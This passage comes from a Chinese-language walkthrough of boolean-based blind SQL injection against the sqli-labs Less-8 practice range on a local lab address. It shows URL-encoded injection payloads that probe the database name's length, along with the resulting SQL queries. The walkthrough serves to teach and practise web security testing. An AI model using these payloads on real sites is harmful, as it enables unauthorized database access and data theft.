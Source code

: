> 可能会有人有疑问，这个`SQL`后面下面怎么有个分号单列一行，这是因为上一行后面有一个`#`。`#`号会把后面的内容全部注释掉，执行的时候会忽略掉后面的内容，但`SQL`语句是以分号结尾的，所以在第二行单列了一个分号。
>
> 后续凡是涉及到该靶场均存在此问题，便不再重复赘述。

网站有返回

![](盲注/photo/7.jpg)

再测试小于10

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C10%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<10#' LIMIT 0,1;
;
```

网站有返回

![](盲注/photo/8.jpg)

然后测试小于8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<8#' LIMIT 0,1;
;
```
